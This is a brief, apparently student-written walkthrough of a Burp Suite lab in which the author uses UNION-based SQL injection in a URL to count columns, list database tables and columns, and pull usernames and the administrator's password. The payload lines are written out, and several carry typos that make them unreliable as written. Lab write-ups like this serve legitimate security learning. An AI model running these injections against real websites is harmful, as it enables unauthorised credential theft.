 # BurpSuite_Lab
#update git
first i try add "'+union+select+null--" into Url
as can we seen, there haven't happen. Then try add "+union+select+null,null--"
then i changed it in to "+union+select+tale_name,null+from+information_schema.tables--"
i saw user_****
then i tried to find column
i try "'+union+select+column_table,null+form+information_chema.columns--"
we could see user and password
the i tried "'+union+select+user_***, password_*** from user_***"
we can see password of acc administrator
